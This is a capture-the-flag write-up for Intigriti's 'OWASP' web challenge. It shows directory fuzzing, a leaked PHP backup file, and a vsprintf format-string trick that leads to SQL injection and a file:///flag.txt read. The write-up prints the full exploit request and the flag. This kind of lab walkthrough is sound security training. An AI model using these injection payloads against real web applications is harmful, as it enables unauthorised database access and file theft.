


# OWASP, web, 500 points, 6 solves  
Everyone knows the OWASP top 10 are vulnerable, I guess this might be too 💀  Author: Ivars Vids  `https://owasp.ctf.intigriti.io`  

---
Website shows OWASP Top Ten security risks, containing a search bar at the top.



Searching for "injection" shows a single risk about injection and URL changes to `https://owasp.ctf.intigriti.io/search.php?title=injection`.



As none of the common injections work (SQL, command, template, etc.) and there's nothing more interesing,
more enumeration is required to discover anything useful. Website is PHP-based, let's search for more PHP files.

```
$ ffuf -u https://owasp.ctf.intigriti.io/FUZZ -w ~/SecLists/Discovery/Web-Content/common.txt -mc 200 -e '.php'
(..)
db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 31ms]
footer.php              [Status: 200, Size: 29, Words: 1, Lines: 5, Duration: 18ms]
header.php              [Status: 200, Size: 344, Words: 29, Lines: 15, Duration: 30ms]
index.php               [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 30ms]
index.php               [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 51ms]
robots.txt              [Status: 200, Size: 53, Words: 2, Lines: 2, Duration: 18ms]
search.php              [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 140ms]
```

Nothing interesting in these files, except a troll containing `robots.txt`:

```
Sitemap: https://www.youtube.com/watch?v=DPtn9KzfsGI
```

Trying to search for various PHP backup files turns out to be more fruitful.

```
$ ffuf -u https://owasp.ctf.intigriti.io/FUZZ -w ~/src/sec/SecLists/Discovery/Web-Content/common.txt -mc 200 -e '.php~,.php.old,.php.bak,.php.swp,.php.sav,.php.save'
(..)
index.php               [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 64ms]
robots.txt              [Status: 200, Size: 53, Words: 2, Lines: 2, Duration: 12ms]
search.php.save         [Status: 200, Size: 1295, Words: 167, Lines: 45, Duration: 22ms]
```

A complete source for `search.php` is revealed in `https://owasp.ctf.intigriti.io/search.php.save`:

```php
<?php
require_once('db.php');
$flag = file_get_contents('/flag.txt');
@include('header.php');

//build sql query
$sql = 'select * from owasp';
$sql_where = '';
foreach ($_REQUEST as $field => $value){
  if ($sql_where) $sql_where = " AND $sql_where";
  $sql_where = "position(%s in $field) $sql_where";
  try {
    $sql_where = @vsprintf($sql_where, Array("'". sqlesc($value) . "'"));
  } catch (ValueError | TypeError $e) {
    $sql_where = '';
  }
  if (preg_match('/[^a-z0-9\.\-_]/i', $field)) die ('Hacking attempt!');
}
$sql .= ($sql_where)?" where $sql_where":'';

foreach(sqlquery($sql) as $row){
  @include('row.php');
  $config = json_decode($row['config'], true);
}

if (isset($config['flag']) && $config['flag']){
  $url = $config['url'];
  // no printer manufacturer domains
  if (preg_match('/canon|epson|brother|hp|minolta|sharp|dell|oki|samsung|xerox|lexmark/i', $url)) die('Looks like a printer!');
//  $url = 'https://www.youtube.com/watch?v=2U3Faa3DejQ';
  if (filter_var($url, FILTER_VALIDATE_URL)) {
    $http_resp = file_get_contents($url);
    var_dump($http_resp);
    if ($flag === $http_resp){
      die('Yes! You got the right flag!');
    }
    die('Wrong flag');
  }
  else {
    die('URL does not start with HTTP or HTTPS protocol!');
  }
}

@include('footer.php');
```

There's a lot going on, but bascially the code generates SQL query from request parameters and expects a row containing `config` column with JSON content.
If the JSON content contains `flag` field and `url` field, then `url` field is passed to `file_get_contents` and compared with actual flag.

So the idea would be to make the code execute SQL query, which contains `config` column with `flag` and `url` fields, where latter would contain actual flag.
And to actually get it done, there must be an SQL injection somewhere. Ok.

Going back to SQL query generation, the initial request query `?title=injection` would run SQL query `select * from owasp where position('injection' in title)`.
Multiple parameter request query like `?field1=value2&field2=value2&...` would execute SQL query `select * from owasp where position(<value1> in <field1>) and position(<value2> in <field2>) ...`.

The `<field>` is matched with `preg_match` function, using regular expression `[^a-z0-9.-_]` and otherwise, the code is stopped with message about hacking.
The `<value>` is processed as a value to `vsprintf` function, where the only format string used is pre-defined `%s`. If the `vsprintf` somehow fails, neither `<value>` nor `<field>` is used.
Everything seems legit at the first glance.

Running a request with unknown field, e.g., `?test=123` returns MySQL error:

```php
Fatal error: Uncaught mysqli_sql_exception: Unknown column 'test' in 'where clause' in /var/www/html/db.php:11 Stack trace: #0 /var/www/html/db.php(11): mysqli->query('select * from o...') #1 /var/www/html/search.php(21): sqlquery('select * from o...') #2 {main} thrown in /var/www/html/db.php on line 11
```

This actually allows to brute-force all the columns in the table.

```
$ ffuf -u 'https://owasp.ctf.intigriti.io/?FUZZ=' -w ~/src/sec/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fr 'mysql'
(..)
ID                      [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 18ms]
Id                      [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 21ms]
Title                   [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 26ms]
config                  [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 17ms]
description             [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 47ms]
id                      [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 210ms]
null                    [Status: 200, Size: 373, Words: 29, Lines: 19, Duration: 50ms]
title                   [Status: 200, Size: 6361, Words: 979, Lines: 99, Duration: 213ms]
```

So the table, most probably, has columns `id, title, config, description`.  

Continuing to brute-force the `config` column like `?config=flag`, results in several strings like `flag`, `proto`, `false`, `description`, `1337UP` and a troll link `https://www.youtube.com/watch?v=Ct6BUPvE2sM`. This asserts that `config` contains JSON with `flag` field as previous link to YouTube. No `url` field, though.

All of this is fun and stuff, but doesn't help to solve the challenge.

Looking back at restrictions, the `<field>` is very restrictive (`[^a-z0-9.-_]`), but if `preg_match` function would return neither `0` nor `1`, but a `false` (on failure), then all is golden. Unfortunately, conditions for failure, like hitting a backtrack limit or a recursion limit, doesn't apply here, due very strict regular expression.

So the only place left to look is how `vsprintf` function is being used. On it's own, it would be safe, but in this case the "format" comes not only from pre-defined string `position(%s in $field)`, but also from previously generated where clause (they are concatenated). For example, if request query is `?field1=value1&field2=value`, then `vsprintf` is called two times:
1) format `position(%s in field1)`, value `'value1'`
2) format `position('value1' in field1) and position(%s in field2)`, value `'value2'`  

This leads to format string injection.

Injecting a simple `%s` would not work, as it would lead to format string `.. %s .. %s ..` with only one value in arguments and would fail.
But using `%1$s` would work fine, as it would lead to format string `... %s .. %1$s` and would work with single value in arguments.

Constructing a request query `?id=%1$s&title=in title) OR 1=1 -- -` results in successful SQL injection as the query would look like `select * from owasp where position('' in title) OR 1=1 -- - ' in id) and position('in title) or 1=1 -- -' in title)`.

Number of columns could be brute-forced, but, as deducted before, there are 4 columns in the table and request query `?id=%1$s&title=in title) UNION SELECT 1,1,1,1 -- -` works perfectly returning four ones.

The last step is to find which column is `config` and construct a JSON, which would contain required `flag` and `url` fields.
As the `url` is bluntly passed to `file_get_contents`, it can be simply `file:///flag.txt` and it will read it's contents.

```python
>>> b'{"flag":1,"url":"file:///flag.txt"}'.hex()
'7b22666c6167223a312c2275726c223a2266696c653a2f2f2f666c61672e747874227d'
```

The winning request: `https://owasp.ctf.intigriti.io/search.php?id=%1$s&title=in title) UNION SELECT 1,1,1,0x7b22666c6167223a312c2275726c223a2266696c653a2f2f2f666c61672e747874227d-- -`

Flag: `INTIGRITI{php_n4n0_5ql1_lf1_53cr37_fl46}`

---
P.S. 

There exists another troll table `flag` in the database, containing link to `https://www.youtube.com/watch?v=dQw4w9WgXcQ`.
